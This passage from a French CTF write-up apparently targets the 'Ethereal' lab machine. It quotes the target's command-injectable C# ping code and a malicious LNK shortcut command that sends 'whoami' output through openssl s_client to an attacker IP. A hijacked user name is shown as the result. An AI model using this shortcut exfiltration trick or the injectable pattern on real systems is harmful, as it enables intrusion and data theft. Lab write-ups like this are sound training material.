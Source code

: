 ```java
        myProcess.StartInfo.Arguments = "/c ping -n 2 "+ search.Text ;

        myProcess.Start();

        StreamReader sOut = myProcess.StandardOutput;
        result = sOut.ReadToEnd();

        if (!myProcess.HasExited)
        {
            myProcess.WaitForExit();
        }

        //Response.Write(result);
        if (result.Contains("Request timed out") || result.Contains("not") || result.Contains(no)  )
        {
            l1.InnerText = "Couldn't reach the desired host!";
        }
        else
        {
            l1.InnerText = "Connection to host successful";
        }
            sOut.Close();
            myProcess.Close();
        search.Text = "";

    }
}
```

A Lnk To The Past
-----------------

Pas d'autre choix donc que nous pencher directement sur ce fameux fichier LNK.  

J'ai commencé simple en créant sur une VM Windows un raccourci exécutant la commande suivante :

```bash
cmd /c whoami | "c:\Program Files (x86)\OpenSSL-v1.1.0\bin\openssl.exe" s_client -quiet -connect 10.10.13.187:136
```

Si les fichiers mentionnés n'existent pas, Windows peut refuser la création du lien. On peut au choix reproduire l'environnement en trouvant des binaires OpenSSL et les copier au même emplacement (ce que j'ai fait au bout d'un moment) soit placer un exécutable quelconque (*calc.exe*) à l'emplacement attendu.  

Quand on écrase le LNK (soit en redirigeant directement l'output de *OpenSSL* vers le fichier, soit en rajoutant une étape consistant à utiliser les options *enc -base64* d'*OpenSSL*) on a comme retour le nom de notre nouvel accès (la présence d'un autre utilisateur qui cliquerait sur le raccourci est simulée) :  

```plain
ethereal\jorge
```

